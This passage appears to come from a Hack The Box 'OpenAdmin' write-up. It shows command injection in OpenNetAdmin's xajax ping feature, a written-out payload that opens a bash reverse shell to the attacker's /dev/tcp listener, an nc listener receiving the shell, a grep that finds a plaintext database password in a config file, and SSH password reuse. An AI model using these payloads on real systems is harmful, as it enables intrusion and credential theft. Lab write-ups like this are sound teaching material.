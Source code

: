 Listening with tcpdump on the tun0 interface, we can see the following packets incoming
```
[root@kali OpenAdmin ]$ tcpdump -nettti tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 00:00:00.000000 ip: 10.10.10.171 > 10.10.14.24: ICMP echo request, id 4706, seq 1, length 64
 00:00:00.000013 ip: 10.10.14.24 > 10.10.10.171: ICMP echo reply, id 4706, seq 1, length 64
```
Now we can change our payload to the following, with the standard reverse tcp bash shell:
```
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.24/4444+0>%261";echo "END"&xajaxargs[]=ping
```
and get a shell as www-data
```
root@kali:~/Documents/HTB/Boxes/OpenAdmin# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.171] 43374
bash: cannot set terminal process group (1242): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$
```

## User
Once we gain an initial foothold, let's look for database password into the OpenNetAdmin application directory.
```
www-data@openadmin:/var/www/html/ona$ grep -ri pass *    
[... SNIP ...]
local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',   
[... SNIP ...]  
```
Now let's open the file looking for a database user:
```
www-data@openadmin:/var/www/html/ona$ less local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```
Now, with this credentials if we poke around into the mysql database we can find credentials for ona 'admin:admin' unfortunately this don't leads to anywhere so let's see if we can use the discovered password to ssh as another user:  
```
[root@kali OpenAdmin ]$ ssh -l jimmy $TARGET                      
jimmy@10.10.10.171's password:
```